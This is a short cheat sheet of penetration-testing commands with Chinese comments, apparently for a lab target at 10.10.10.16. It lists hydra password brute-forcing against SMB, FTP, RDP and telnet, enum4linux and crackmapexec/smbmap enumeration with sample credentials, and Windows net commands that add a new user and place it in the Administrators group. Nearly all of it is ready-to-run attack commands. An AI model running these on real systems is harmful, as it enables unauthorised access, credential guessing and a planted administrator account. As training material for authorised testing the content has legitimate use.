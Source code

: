 ## _hydra_

[破密工具 hydra cheat sheet](https://github.com/frizb/Hydra-Cheatsheet)

```sh
hydra -L <account_wordlist_file> -P <pwd_wordlist_file> smb://10.10.10.16
hydra -L <account_wordlist_file> -P <pwd_wordlist_file> ftp://10.10.10.16
hydra -l <account_string> -P <pwd_wordlist_file> rdp://10.10.10.16
hydra -L <account_wordlist_file> -P <pwd_wordlist_file> 10.10.10.16 telnet
```

## _enum4linux_

列舉Windows訊息

```sh
sudo enum4linux 10.10.10.16
sudo enum4linux -u king -p 'slave' -a 10.10.10.16
```

## _crackmapexec_

網域滲透工具

```sh
# 確認impacket套件是否在0.10以上
python3 -m pip list | grep impacket
# 為了使用CrackMapExec工具，要升級套件impacket
python3 -m pip install --upgrade impacket
# 列舉共享資源
sudo crackmapexec smb 10.10.10.16 -u king -p 'slave' --shares
# 替代指令工作 smbmap
sudo pip3 install smbmap
smbmap -H 10.10.10.16 -u king -p 'slave'
```

## _net_

```sh
# 連結10.10.10.16網路磁碟機
net use \\10.10.10.16 slave /u:king
# 列舉10.10.10.16網路磁碟機
net view \\10.10.10.16
# 增加帳號
net user queen /add
# 列舉所有帳號
net users
# 增加群組
net localgroup Administrator queen /add
# 列舉Administrators群組內所有帳號
net localgroup Administrators
```

